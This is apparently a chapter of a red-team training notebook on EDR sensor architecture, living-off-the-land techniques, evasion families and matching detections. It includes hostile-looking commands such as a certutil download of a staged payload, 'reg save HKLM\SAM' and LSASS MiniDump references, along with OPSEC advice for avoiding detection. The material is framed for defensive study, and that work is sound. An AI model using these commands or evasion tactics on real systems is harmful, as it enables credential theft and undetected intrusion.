






**Level:** Expert · **Track:** Red Team · **Read time:** 220 min

This is Chapter 7 of the Red Team Operations notebook. Chapter 6 got a foothold —
first execution on a target endpoint. The instant that beacon starts, a new
problem dominates everything: **staying quiet on a monitored host.** Modern
endpoints are not the blind Windows boxes of a decade ago. They run Endpoint
Detection and Response (EDR) agents that observe process creation, memory, API
calls, and network activity in near real time. This chapter is about the cat-and-
mouse between an operator trying to blend in and the EDR trying to surface them —
and, above all, about how a defender builds detections that survive the operator's
tricks.

The treatment is, as always in this notebook, **defender-first, conceptual, and
lab-scoped**. This chapter contains **no working evasion code and no malware.** It
explains *how EDR sees the endpoint* and *what categories of evasion exist* at the
level of mechanism and resulting telemetry, because that is exactly the knowledge a
detection engineer needs to know where their sensors are strong, where they're
blind, and what a bypass looks like when it happens. If you want to defeat evasion,
you must understand what it targets.

---

## Why This Matters

The endpoint is where the truth lives. As Chapters 5 and 6 established, network
defenses lose power as attackers ride trusted infrastructure and identity — so the
industry bet the farm on **EDR**: rich, on-host telemetry plus behavioural
analytics. Attackers responded by (a) using **legitimate built-in tools** so their
activity blends with admin work ("living off the land"), and (b) developing
**evasion** that blinds or tampers with the EDR's sensors. A defender who does not
understand both loses twice: they over-trust the EDR, and they can't tell a bypass
from a quiet day.

Three principles frame the chapter:

1. **Blending beats hiding.** The strongest tradecraft doesn't drop novel malware
   that AV flags; it uses `powershell`, `wmic`, `net`, `reg`, `schtasks`, `rundll32`
   — tools already on every Windows host and used constantly by real admins. The
   detection problem becomes "which `powershell` is malicious?", which is far harder
   than "is this file malware?".
2. **EDR is a stack of sensors, each with a bypass and a fallback.** User-mode API
   hooks can be unhooked — but kernel callbacks and ETW still fire. AMSI can be
   tampered — but script-block logging may still capture the script. No single
   sensor is the EDR; defense-in-depth applies *inside* the agent too.
3. **The noise floor is the real adversary.** Everything an operator does competes
   with a defender's alert budget. Evasion isn't only about beating a specific rule;
   it's about staying under the volume of benign activity so nothing gets reviewed.
   Detection engineering is as much about *reducing false positives on benign admin
   tooling* as about catching the bad.


---

## Part 1: Living off the Land (LotL) — The Core Idea

**Living off the land** means accomplishing objectives using software already
present on the target: built-in OS binaries, admin utilities, and scripting
engines. Nothing is dropped, so file-based AV has nothing to scan, and the activity
looks like administration.

### 1.1 The three LotL resource classes

| Class | Examples | Why it blends |
|-------|----------|---------------|
| **LOLBins** (signed OS binaries) | `rundll32`, `regsvr32`, `mshta`, `certutil`, `msbuild`, `wmic`, `bitsadmin` | Microsoft-signed, always present, legitimate uses |
| **Native admin tools** | `net`, `net1`, `sc`, `schtasks`, `reg`, `wmic`, `dsquery`, `nltest` | Exactly what sysadmins run daily |
| **Scripting engines** | PowerShell, WSH (`wscript`/`cscript`), WMI | Built-in automation; ubiquitous |

### 1.2 What LotL is used for across the kill chain

- **Discovery:** `whoami /all`, `net user`, `net group /domain`, `nltest
  /domain_trusts`, `systeminfo`, `ipconfig /all`, `tasklist` — map the host and
  domain using tools every admin runs.
- **Execution / proxy:** `rundll32`, `regsvr32`, `mshta`, `msbuild` to run code
  without a novel binary.
- **Download/transfer:** `certutil -urlcache -f <url> out`, `bitsadmin`,
  `curl.exe`/`Invoke-WebRequest` to pull staged payloads.
- **Persistence:** `schtasks /create`, `reg add ...\Run`, `sc create`, WMI event
  subscriptions.
- **Credential access:** `reg save HKLM\SAM`, `ntdsutil`, `vssadmin` shadow copies,
  `comsvcs.dll` MiniDump of LSASS (covered in the priv-esc notebook's credential-
  harvesting chapter).
- **Lateral movement:** `wmic /node:`, `psexec`-style SCM, WinRM (`Enter-PSSession`),
  `schtasks /s`.

### 1.3 The detection paradox of LotL

Every command above is *also* legitimate. So detection cannot be "alert when
`net group /domain` runs" — a help-desk tech runs that hourly. It must be
**contextual**: *which parent* ran it, *in what sequence*, *from what user/host*, at
*what time*. A single `whoami` is nothing; `whoami` → `net group "Domain Admins"` →
`nltest /domain_trusts` → `reg save HKLM\SAM` in 40 seconds from a process whose
parent was `WINWORD.EXE` is a textbook discovery-to-credential-access chain.



**Blue-team relevance:** this is why **sequence and lineage analytics** beat single-
event rules. The individual events are benign; the *pattern* is not. SIEM/EDR
correlation that scores a host on "how many discovery LOLBins fired in a short
window under one process tree" catches LotL that no per-command rule would.

### 1.4 A worked LOLBin: reading `certutil` abuse from telemetry

`certutil.exe` is a certificate utility, but two of its switches are abused
constantly, and both are trivially detectable once you know them:

```text
certutil -urlcache -split -f http://staging/payload.bin out.bin   # download
certutil -decode payload.b64 payload.bin                          # base64 decode
```

Switch meanings (teach-from-scratch):

- `-urlcache` — manages the URL cache; with `-f` (force) and a URL it *fetches* the
  URL. Attackers use it as a downloader that AV historically ignored because
  `certutil` is trusted.
- `-split` — split the fetched object; incidental here.
- `-f` — force overwrite.
- `-decode` / `-encode` — Base64 decode/encode a file; used to reconstitute a
  payload that was smuggled as text.

**Detection:** `certutil` with `-urlcache`/`-verifyctl` and an `http(s)` argument =
download; `certutil -decode` = payload reconstruction. Neither is common in normal
use, so a simple Sysmon EID 1 command-line rule (`Image ends \certutil.exe AND
CommandLine contains urlcache|decode|encode`) is high-precision. This is the model
for turning the entire LOLBAS catalog into a detection backlog: read the abuse
switch, write the command-line rule, baseline the rare legitimate use.

---

## Part 1b: The Two Engines — PowerShell and WMI

Two built-in subsystems deserve their own treatment because they are the most
powerful LotL engines on Windows and the richest detection surfaces.

### 1b.1 PowerShell as an attack platform

PowerShell is a fully-featured .NET automation shell present on every modern
Windows host. For an operator it offers file-less execution, direct .NET/Win32
access, remoting, and a vast surface of built-in cmdlets — all signed and expected.
For a defender, PowerShell is unusually *well-instrumented*, which is the saving
grace:

- **Script Block Logging (Event ID 4104):** records the *de-obfuscated* content of
  every script block as it executes — even if it was Base64-encoded, compressed, or
  built at runtime. This is the single most important PowerShell log.
- **Module Logging (4103):** records pipeline execution details.
- **Transcription:** full input/output transcripts to a protected location.
- **AMSI integration:** script content is submitted to AV/EDR at runtime (Part 3.1).

```powershell
# Enable the trifecta in a lab (domain: prefer the PowerShell GPO templates).
$base = "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell"
reg add "$base\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f
reg add "$base\ModuleLogging"      /v EnableModuleLogging      /t REG_DWORD /d 1 /f
reg add "$base\Transcription"      /v EnableTranscripting      /t REG_DWORD /d 1 /f
```

**Constrained Language Mode (CLM)** is the corresponding hardening: it restricts
PowerShell to a safe subset (no arbitrary .NET/Win32), defeating most script-based
offense. CLM is enforced automatically when application control (WDAC/AppLocker) is
in "allow-listed scripts only" mode — another reason application control is a
force multiplier.

**Blue-team relevance:** the classic evasion is `powershell -Version 2` to drop to
an *un-instrumented* engine (PS v2 predates AMSI/script-block logging). **Remove the
PowerShell v2 engine feature** — its presence is a well-known blind spot, and a
`-Version 2` invocation is itself an alert.

### 1b.2 WMI as a LotL substrate

**Windows Management Instrumentation (WMI)** is a management framework that can
enumerate the system, execute processes (`Win32_Process.Create`), and — dangerously
— host **permanent event subscriptions** for stealthy persistence and lateral
movement. WMI is attractive because it's built-in, network-capable, and historically
under-logged.

```powershell
# Benign lab enumeration via WMI/CIM (read-only; safe).
Get-CimInstance Win32_OperatingSystem | Select Caption, Version, LastBootUpTime
Get-CimInstance Win32_Process | Select Name, ProcessId, CommandLine  # process list w/ cmdline
Get-CimInstance -Namespace root\subscription -Class __EventFilter    # inspect WMI persistence
```

**WMI event-subscription persistence** couples three objects: an `__EventFilter`
(the trigger, e.g. "at boot" or "every N seconds"), a `CommandLineEventConsumer`
(the action, e.g. run a command), and a `__FilterToConsumerBinding` (glue). Once
bound, the action fires on the trigger with SYSTEM privileges and no file on disk —
a favourite stealthy persistence mechanism.

**Blue-team relevance:** WMI activity has its own ETW/Sysmon coverage — **Sysmon
Event IDs 19, 20, 21** log `WmiEventFilter`, `WmiEventConsumer`, and
`WmiEventConsumerToFilter` binding respectively. Alerting on *any* new permanent
WMI subscription is high-value because legitimate ones are rare and usually
deployed by known management software. Enumerating existing subscriptions (as
above) is a standard hunt.

| Engine | Offensive value | Key telemetry | Hardening |
|--------|-----------------|---------------|-----------|
| PowerShell | File-less exec, .NET, remoting | 4104/4103 script-block+module, AMSI | CLM, remove PSv2, WDAC |
| WMI | Enum, exec, stealth persistence | Sysmon 19/20/21, WMI-Activity ETW | Restrict WinMgmt, monitor subscriptions |

---

## Part 2: How EDR Actually Sees the Endpoint

You cannot reason about evasion without knowing the sensors. A modern EDR is a
**stack of independent telemetry sources**, each observing a different layer.

### 2.1 The sensor stack



- **Kernel callbacks** (`PsSetCreateProcessNotifyRoutineEx`,
  `PsSetLoadImageNotifyRoutine`, `PsSetCreateThreadNotifyRoutine`,
  `CmRegisterCallbackEx` for registry): the OS *notifies* the EDR driver whenever a
  process/thread is created or an image (DLL/EXE) is loaded. These fire from kernel
  space and are hard for user-mode malware to suppress.
- **Minifilter drivers** (file-system filter): observe file creates/writes/renames —
  this is how EDR sees a payload land or a shadow copy get read.
- **ETW (Event Tracing for Windows):** a built-in, high-volume telemetry bus.
  Providers like **Microsoft-Windows-Threat-Intelligence (ETW-TI)** surface
  security-relevant events (e.g. certain memory operations) to EDRs; `.NET` and
  PowerShell also emit rich ETW.
- **AMSI (Antimalware Scan Interface):** lets scripting engines (PowerShell, WSH,
  JScript, VBA, .NET) submit *the content about to run* to the AV/EDR for scanning —
  so even obfuscated, in-memory scripts get inspected at execution time.
- **User-mode API hooks:** many EDRs place inline hooks in `ntdll.dll` so calls like
  `NtAllocateVirtualMemory`, `NtProtectVirtualMemory`, `NtWriteVirtualMemory`,
  `NtCreateThreadEx` are observed. This layer is the *most* tamperable — it lives in
  the same user process as the malware.

### 2.2 The key asymmetry

| Sensor layer | Where it runs | Tamper difficulty (for malware) | Defender takeaway |
|--------------|---------------|---------------------------------|-------------------|
| Kernel callbacks | Kernel | Hard (needs driver/kernel primitive) | Trust these most |
| Minifilter | Kernel | Hard | Reliable file telemetry |
| ETW-TI | Kernel-fed | Hard to fully suppress | Strong memory signal |
| ETW (.NET/PS) | User-fed | Moderate (can be patched/disabled) | Good but tamperable |
| AMSI | User process | Easier (in-process) | Corroborate, don't rely alone |
| ntdll hooks | User process | Easiest (unhook/direct syscall) | Weakest link — never sole signal |

**This table is the whole defensive strategy of the chapter:** design detections so
that beating the *tamperable user-mode layers* still leaves the *kernel/ETW-TI*
layers firing. An operator who unhooks `ntdll` and patches AMSI has defeated the two
easiest sensors — and a well-built EDR still sees the process creation, the image
load, and the suspicious memory operation from kernel space.

---

## Part 3: The Evasion Families (Concept & Telemetry Only)

Below are the *categories* of evasion red teams model, each described by **what it
targets and what it leaves behind** — not how to build it. The point is detection.

### 3.1 AMSI tampering

**Target:** the AMSI scan of script content. **Concept:** malware in the same
process neutralizes AMSI so scripts aren't submitted for scanning (e.g. patching the
in-memory scan function to always return "clean," or corrupting AMSI's context).
**Telemetry left behind:**

- **AMSI itself can emit an event** when initialization fails/patches occur; a
  sudden "AMSI disabled/failed" in a `powershell.exe` is suspicious.
- **PowerShell script-block logging (Event ID 4104)** may still capture the script
  *regardless of AMSI*, because it's a separate ETW-backed sensor.
- The **memory write to the AMSI region** is itself a detectable operation via
  ETW-TI / memory scanning.

**Blue-team relevance:** never treat "AMSI clean" as proof of safety. Keep
script-block logging on; alert on AMSI init failures; scan for known AMSI-patch byte
patterns in memory.

### 3.2 ETW tampering

**Target:** ETW providers the EDR consumes (e.g. patching `EtwEventWrite` in-process,
or disabling `.NET`/PowerShell ETW). **Concept:** if the process stops emitting ETW,
user-mode ETW-based detections go dark. **Telemetry left behind:** the *absence* of
expected ETW from a live .NET/PowerShell process is itself anomalous; **ETW-TI is
kernel-fed and not silenced by user-mode patches**; and the patch operation touches
memory that memory scanners can find.

### 3.3 User-mode unhooking

**Target:** the EDR's inline hooks in `ntdll.dll`. **Concept:** restore the original
(unhooked) `ntdll` bytes — e.g. by loading a fresh copy from disk/KnownDLLs — so
subsequent syscalls bypass the EDR's user-mode observation. **Telemetry left
behind:** re-mapping/re-reading `ntdll`, and — crucially — **kernel callbacks and
ETW-TI still fire**, so process/thread/image and sensitive memory events are
unaffected. Unhooking beats *one* layer.

### 3.4 Direct & indirect syscalls

**Target:** the user-mode hook layer entirely. **Concept:** instead of calling the
hooked `Nt*` stub in `ntdll`, invoke the `syscall` instruction directly (direct) or
route through a legitimate `ntdll` gadget so the return address looks normal
(indirect, to defeat call-stack inspection). **Telemetry left behind:** **the kernel
still services the syscall and still runs the callbacks**; abnormal call stacks and
unbacked-memory execution are detectable; ETW-TI still reports sensitive operations.

### 3.5 Sleep obfuscation / memory hiding

**Target:** memory scanners that snapshot a beacon while it sleeps. **Concept:**
encrypt the implant's memory and restore RWX→RW permissions during the long sleep so
a scan sees only ciphertext, then decrypt to run. **Telemetry left behind:** the
*pattern* of periodic memory-permission flips (RW↔RX), timer/APC usage, and the
network beacon cadence itself remain observable; memory scanners timed to catch the
"awake" window still work.

### 3.6 BYOVD (Bring Your Own Vulnerable Driver)

**Target:** the EDR's kernel components. **Concept:** load a *legitimately signed but
vulnerable* driver and abuse its flaw to get kernel primitives — then blind/kill EDR
callbacks from the kernel. **Telemetry left behind:** the **driver load itself** is a
loud, high-value event (a known-vulnerable driver hash loading on a workstation is
almost never legitimate); Microsoft's **vulnerable-driver blocklist (HVCI/WDAC)** can
prevent the load outright.

### 3.7 Process injection & masquerading

**Target:** attribution — run code inside a trusted process. **Concept:** classic
injection (covered conceptually in the malware-evasion notebook) — allocate, write,
and execute in another process; or spoof a parent PID / command line to look benign.
**Telemetry left behind:** cross-process memory operations (`NtWriteVirtualMemory`
into another PID), remote thread creation, unbacked executable memory, and
parent/child mismatches — all observable from kernel callbacks and ETW-TI.

### 3.8 The evasion → sensor map



| Evasion family | Sensor it blinds | Sensor still firing (detection anchor) |
|----------------|------------------|----------------------------------------|
| AMSI tamper | AMSI script scan | Script-block log (4104), memory scan |
| ETW tamper | User ETW providers | ETW-TI (kernel), absence anomaly |
| Unhooking | ntdll user hooks | Kernel callbacks, image-load of fresh ntdll |
| Direct/indirect syscalls | ntdll user hooks | Kernel callbacks, call-stack/unbacked mem |
| Sleep obfuscation | Idle memory scan | Perm-flip pattern, beacon cadence |
| BYOVD | Kernel callbacks | **Driver-load event**, blocklist |
| Injection/masquerade | Attribution | Cross-proc mem, remote thread, PPID mismatch |

**Every row's rightmost column is a detection.** Build there.

### 3.9 Parent-PID & command-line spoofing

**Target:** attribution and lineage rules. **Concept:** at process creation a
process can request a *different* parent (via `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`)
so a malicious child appears to descend from, say, `explorer.exe`; command-line
spoofing writes a benign command line into the PEB after the real (malicious) one
launched, so tools reading the PEB see the fake. **Telemetry left behind:** the
kernel process-creation callback records the *true* creating process (EDRs that read
the callback, not just the PEB, see through PPID spoofing); ETW and the actual
loaded modules betray the real behaviour; and a mismatch between the reported parent
and the creating token/session is itself detectable.

**Blue-team relevance:** don't build lineage rules purely on the self-reported PEB
parent — prefer the kernel callback's creator. Cross-check parent image against the
child's integrity level, session, and user; spoofed lineages often can't fake all of
them consistently.

### 3.10 Token manipulation & UAC bypass

**Target:** privilege/attribution. **Concept (see the Windows priv-esc notebook for
depth):** duplicate or impersonate another process's token to act as a different
user, or abuse an auto-elevating trusted binary to bypass UAC. **Telemetry left
behind:** token-duplication/impersonation APIs surface via ETW-TI; auto-elevation
abuses (e.g. `fodhelper`, `computerdefaults` registry-hijack patterns) leave
registry-write and process-creation artifacts Sysmon EID 13/1 capture. Alert on the
known auto-elevating binaries spawning children with high integrity from odd
registry state.

---

## Part 3b: Credential Access the LotL Way

Credential theft is where offense most wants to be quiet, and it leans heavily on
built-in tooling — which makes it richly detectable if you know the artifacts.

| Technique (LotL) | Built-in mechanism | Telemetry / detection |
|------------------|--------------------|-----------------------|
| LSASS memory read | `comsvcs.dll MiniDump`, `rundll32`, task manager | Handle-open to `lsass.exe` (Sysmon EID 10), MiniDump ETW |
| SAM/SYSTEM hive dump | `reg save HKLM\SAM`, `reg save HKLM\SYSTEM` | Sysmon EID 1 `reg save` of sensitive hives |
| Shadow-copy of NTDS/SAM | `vssadmin create shadow`, `esentutl` | `vssadmin`/`esentutl` on a DC or workstation |
| NTDS.dit extraction (DC) | `ntdsutil`, `ntdsutil ifm` | `ntdsutil` execution on a domain controller |
| DPAPI / browser creds | native crypto APIs | file access to credential stores, CryptUnprotect ETW |

**Blue-team relevance:** **any handle to `lsass.exe` with read/dump access
(Sysmon Event ID 10)** from a non-security process is one of the highest-fidelity
detections in Windows. Microsoft's **Credential Guard** (VBS-isolated LSASS)
structurally blocks most LSASS credential theft, and **Protected Process Light
(PPL)** on LSASS raises the bar further — deploy both. `reg save` of `HKLM\SAM` and
`ntdsutil` on a DC are near-unambiguous when they aren't part of known backup jobs.



---

## Part 4: OPSEC in Depth — Staying Under the Noise Floor

Evasion beats sensors; **OPSEC** avoids generating events worth reviewing at all.

### 4.1 Blend with baseline behaviour

- **Use the tooling the org already uses.** If admins manage via WinRM, move via
  WinRM — not a novel protocol.
- **Match timing to the environment.** Operate during business hours in the target's
  time zone; a long-haul beacon at 3 a.m. local is a gift to shift analysts.
- **Throttle discovery.** Don't run twenty `net`/`nltest` commands in ten seconds;
  the *burst* is the signal. Spread and minimize.

### 4.2 Minimize footprint

- Prefer **in-memory** over touching disk (fewer minifilter events) — but know it
  trades file telemetry for memory telemetry, not for invisibility.
- Avoid **default artifacts** (named pipes with framework-default names, default
  service names, default injection targets) — these are exactly what EDR vendors
  ship signatures for.
- Clean up: scheduled tasks, services, and dropped files left behind become IR
  evidence and future detections.

### 4.3 Compartmentalize actions

Tie back to Chapter 5's infrastructure OPSEC: separate high-risk actions (LSASS
access, DCSync) from routine beaconing, and be ready to lose a foothold without
losing the operation. **Every noisy action should be deliberate, hypothesis-driven,
and preceded by "what event does this generate and can the EDR see it?"**

### 4.3c Moving laterally without lighting up

Lateral movement is where LotL and OPSEC fuse. Each built-in movement method has a
distinct signature a defender keys on:

| Method (built-in) | Mechanism | Distinctive telemetry |
|-------------------|-----------|-----------------------|
| **WinRM / PSRemoting** | `Enter-PSSession`, `Invoke-Command` | 5985/5986 conn + `wsmprovhost.exe` spawn |
| **WMI exec** | `Win32_Process.Create` on remote | WMI-Activity ETW + remote `wmiprvse.exe` child |
| **SCM (psexec-style)** | Create+start a remote service | Event 7045 (service install) on target |
| **Scheduled task** | `schtasks /s remote` | Task-created event; `taskeng`/`svchost` child |
| **DCOM** | Remote COM object exec | DCOM launch + unusual child under `svchost` |

The operator picks whichever matches the environment's *normal* admin method to
blend; the defender therefore baselines *which* method is normal per admin group and
alerts on the others — e.g. if the org manages via SCCM/WinRM, a sudden **7045
service install** from a workstation is anomalous. This is the same "blend vs
baseline" contest as single-host LotL, played across the network, and it hands off
directly into the lateral-movement chaining of Chapter 8.

### 4.3b The cost model of every action

A disciplined operator (and, mirrored, a disciplined threat hunter) reasons about
each action on three axes:

| Axis | Question | Example |
|------|----------|---------|
| **Signal** | How loud is the telemetry? | LSASS dump = very loud; `whoami` = quiet |
| **Necessity** | Is this action required now? | Skip domain-wide enum if the path is known |
| **Reversibility** | Can the artifact be cleaned? | A dropped service persists as evidence |

The mature move is to spend "signal budget" only on high-necessity, low-
reversibility actions and to schedule them when analyst attention is lowest. **Blue-
team relevance:** invert the table to prioritize hunting — the loudest, least-
reversible attacker actions (LSASS access, driver load, DCSync, new persistence) are
exactly where you place your highest-fidelity, always-on detections, because even a
careful adversary must eventually pay that signal cost.

### 4.4 The defender's mirror: the noise floor is your ally

**Blue-team relevance:** the operator's dependence on the noise floor is a lever.
The *lower* your false-positive rate on benign admin tooling, the *less* room an
operator has to hide. Detection engineering effort spent baselining "normal"
PowerShell/WinRM/`net` usage per role pays off twice: fewer false alerts, and a
tighter net around anomalous use. A well-tuned environment where "unusual admin
tool from unusual parent at unusual time" reliably surfaces is the single most
effective counter to LotL.

---

## Part 5: Hands-On Lab — Instrument an Endpoint and Watch LotL Light Up

**Goal:** entirely defensive. Stand up Sysmon + PowerShell logging on a lab Windows
VM, run *benign* built-in commands, and observe exactly which telemetry each
produces — so you learn the sensor stack from the defender's chair. No malware, no
evasion code.

### 5.1 Install and configure Sysmon

**Sysmon** (System Monitor) is a free Microsoft Sysinternals driver+service that
logs rich endpoint events (process creation with full command line and hashes,
image loads, network connections, file creates, registry). It is the closest thing
to a free EDR sensor and the standard teaching tool.

```powershell
# On the lab VM (elevated). Use a well-known community config for good coverage.
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
# -accepteula : accept licence non-interactively
# -i          : install driver+service with the given config
```

Enable PowerShell logging via Group Policy or registry (lab):

```powershell
# Turn on Script Block Logging (Event ID 4104) and Module Logging.
# (Set via 'Administrative Templates > Windows PowerShell' GPO in a domain.)
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f
```

### 5.2 Run benign LotL commands and read the events

```powershell
whoami /all
net group "Domain Admins" /domain    # benign in a lab domain
certutil -urlcache -f http://example.com/robots.txt out.txt   # benign file fetch
```

Now inspect what Sysmon recorded:

```powershell
# Event ID 1 = process creation, with full command line + parent + hashes.
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 20 |
  Where-Object { $_.Id -eq 1 } |
  ForEach-Object { $_.Properties[10].Value }   # CommandLine field
```

Representative output you'd see:

```
C:\Windows\System32\whoami.exe /all
C:\Windows\System32\net.exe group "Domain Admins" /domain
C:\Windows\System32\certutil.exe -urlcache -f http://example.com/robots.txt out.txt
```

And the PowerShell script-block log:

```powershell
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" |
  Where-Object { $_.Id -eq 4104 } | Select-Object -First 3 TimeCreated, Message
```

**What you just proved to yourself:** even benign, these commands leave a precise,
attributable trail — parent process, full command line, file hash, network fetch.
Now imagine the *sequence* fired under a `WINWORD.EXE` parent: the same telemetry
becomes a high-confidence detection. You didn't need to run anything malicious to
learn where the sensors are.

### 5.3 Write a detection from the telemetry

```text
Rule: "Discovery burst under document parent"
Source: Sysmon EID 1
Logic:
  parent_image in {WINWORD.EXE, EXCEL.EXE, ONENOTE.EXE, mshta.exe, wscript.exe}
  AND child_image in {whoami.exe, net.exe, net1.exe, nltest.exe, systeminfo.exe,
                      certutil.exe, reg.exe}
  AND count(distinct child within 5 min under same tree) >= 3
Enrichment: add certutil with http(s) arg -> flag download.
Tuning: exclude known admin OUs / management jump hosts.
```

### 5.3b Detect an LSASS handle (benign simulation)

You can generate the *exact* telemetry of credential-dumping without any malware:
simply open a read handle to `lsass.exe` with a benign tool and watch Sysmon Event
ID 10 (ProcessAccess) fire.

```powershell
# Benign: Task Manager or Process Explorer opening lsass generates a handle event.
# Then read the ProcessAccess events Sysmon logged:
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" |
